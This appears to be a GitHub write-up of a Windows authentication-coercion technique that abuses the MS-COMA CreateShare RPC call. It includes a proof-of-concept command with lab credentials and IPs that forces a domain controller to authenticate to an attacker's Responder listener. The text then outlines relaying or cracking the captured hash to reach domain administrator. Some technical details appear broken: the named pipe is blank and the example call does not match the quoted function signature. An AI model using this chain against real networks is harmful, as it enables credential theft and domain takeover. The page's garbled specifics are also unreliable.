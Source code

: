 # MS-COMA - Remote call to CreateShare (opnum 3)

## Summary

 - **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

 - **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CreateShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/5fc91fd4-cb15-458e-87db-4aa8dca177cc)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`CreateShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/5fc91fd4-cb15-458e-87db-4aa8dca177cc) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CreateShare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateShare(
   [in] LPCWSTR pwszShareName,
   [in] LPCWSTR pwszPath
 );
```

## References

 - Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

 - Documentation of function `CreateShare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/5fc91fd4-cb15-458e-87db-4aa8dca177cc